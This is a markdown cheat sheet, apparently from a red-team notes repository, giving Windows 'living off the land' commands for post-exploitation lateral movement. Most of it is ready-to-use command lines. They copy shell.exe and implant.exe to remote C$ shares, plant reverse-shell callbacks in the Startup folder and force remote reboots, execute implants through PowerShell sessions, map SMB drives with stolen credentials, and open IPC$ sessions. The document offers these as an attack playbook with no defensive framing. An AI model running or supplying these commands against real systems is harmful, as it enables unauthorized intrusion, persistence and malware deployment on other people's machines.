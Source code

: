 # Living off the Land

Search Tag(s): #post-exploitation #lateral-movement #remote-file-access #living-off-the-land #windows

## 01 - List Files and Directories

### 1.1 - Command Prompt

List files and directories remotely

```
C:\> dir \\<IP>\c$
```

List all the files and directories

```
C:\> dir /s /b \\<IP>\c$ > files.txt
```

### 1.2 - Powershell

List files and directories remotely

```
PS C:\> Get-ChildItem \\<IP>\C$
```

List all the files and directories

```
C:\> ChildItem -Recurse \\<IP>\C$ > files.txt
```

## 02 - Copy Files

### 2.1 - Command Prompt

#### 2.1.1 - Copy Files Remotely

```
C:\> copy shell.exe \\<IP>\c$\folder\shell.exe

C:\> xcopy shell.exe \\<IP>\c$\folder\shell.exe

C:\> robocopy <source> <destination> <files>

C:\> robocopy \\<IP>\c$\folder\shell.exe shell.exe
```

#### 2.1.2 - Copy reverse shell callback on `Startup` folder

```
C:\> xcopy shell.exe "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

C:\> robocopy C:\ "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" shell.exe

C:\> shutdown /t 0 /r /m \\<IP>
```

### 2.2 - Powershell

#### 2.2.1 - Copy Files Remotely

```
PS C:\> Copy-Item implant.exe -Destination \\<IP>\C$\implant.exe
```

Copy the callback shell and execute it via powershell cmdlet.

```
PS C:\> $ip = New-PSSession -Computer <IP>

Copy-Item "C:\path\to\implant.exe" -Destination "C:\path\to\folder\" -ToSession $ip

icm -Session $ip -ScriptBlock { C:\path\to\implant.exe }
```

#### 2.2.2 - Copy reverse shell callback on `Startup` folder

```
PS C:\> Copy-Item shell.exe -destination "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

PS C:\> Restart-Computer -ComputerName <IP> -Force
```

## 03 - Mapping SMB Drive Network

### 3.1 - Command Prompt

```
C:\> net use Z: \\<IP>\c$

C:\> net use Z: \\<IP>\C$ /user:"<username>" "<password>"

C:\> dir Z:\

C:\> net use Z: /delete
```

### 3.2 - Powershell

```
PS C:\> New-PSDrive -Name <drive_name> -PSProvider FileSystem -Credential $credential \\<IP>\<share_name>

PS C:\> Get-ChildItem <drive_name>:
```

To remove the mounted drive.

```
PS C:\> Remove-PSDrive -Name <drive_name>
```

## 04 - Manual Null Session

### 4.1 - Command Prompt

Authenticate null session with `IPC$` via net use commands to allow the user to execute any other commands remotely.

```
C:\> net use \\<IP>\IPC$ /u:"<username>" "<password>"

C:\> dir \\<IP>

C:\> net view \\<IP>
```

Ignore the authentication while authenticating session.

```
C:\> net use \\<IP>\IPC$ /u:"<username>" "<password>" > %TEMP%\~temp3936t.tmp 2>&1
```

## 05 - Spawn Implant

### 5.1 - Command Prompt

```
C:\> cmd.exe /q /c "C:\path\to\shell.exe" 1> \\<IP>\ADMIN$\<filename> 2>&1
```

## 06 - Terminate all the sessions

### 6.1 - Command Prompt

```
C:\> net use /delete *
```

---
## References

- [LOFLCAB: Get-ChildItem](https://lofl-project.github.io/loflcab/Cmdlets/Get-ChildItem/)

- [LOFLCAB: Copy-Item](https://lofl-project.github.io/loflcab/Cmdlets/Copy-Item/)

- [LOFLCAB: net.exe](https://lofl-project.github.io/loflcab/Binaries/net/)

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)
